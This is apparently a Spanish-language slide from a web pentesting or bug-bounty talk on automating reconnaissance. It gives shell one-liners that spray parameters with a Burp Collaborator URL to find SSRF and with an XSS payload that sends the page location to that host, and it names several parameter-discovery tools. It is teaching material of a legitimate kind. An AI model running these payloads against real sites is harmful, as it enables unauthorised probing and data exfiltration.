

Automatización
Fallo SSRF:
cat recon.txt| httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net

Fallo XSS:
cat recon.txt| httpx -silent -threads 1000 | gau |  grep "=" | qsreplace “<script>var i=new Image; i.src=http://YOUR.burpcollaborator.net/?document.location;</script>

Spidering en Burp -> Pestaña target copy selected items

En vez de gau se puede usar https://github.com/devanshbatham/ParamSpider por ejemplo

Parámetros -> Parameth y Arjun

Ejemplo url-headers.py